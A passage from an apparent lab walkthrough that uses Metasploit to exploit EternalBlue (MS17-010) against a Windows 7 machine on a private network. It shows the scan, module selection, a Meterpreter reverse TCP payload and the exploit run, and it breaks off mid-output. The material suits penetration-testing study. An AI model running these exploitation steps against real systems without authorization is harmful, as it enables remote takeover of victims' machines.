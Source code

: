 ```
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.208.128:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.208.128:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > 

```
> The scan results indicated that the host is likely vulnerable to MS17-010.  

## Exploitation
### Gaining ROOT with Metasploit
Next, I used Metasploit to exploit the EternalBlue vulnerability and gain root access.
```
┌──(psychic㉿0xShakhawat)-[~]
└─$ msfconsole
msf6 > search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
Using `exploit/windows/smb/ms17_010_eternalblue`
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```
The default payload is windows/x64/meterpreter/reverse_tcp. I proceeded with the default payload.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.208.128
rhosts => 192.168.208.128
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.208.139:4444 
[*] 192.168.208.128:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.208.128:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.208.128:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.208.128:445 - The target is vulnerable.
[*] 192.168.208.128:445 - Connecting to target for exploitation.
[+] 192.168.208.128:445 - Connection established for exploitation.
[+] 192.168.208.128:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.208.128:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.208.128:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
```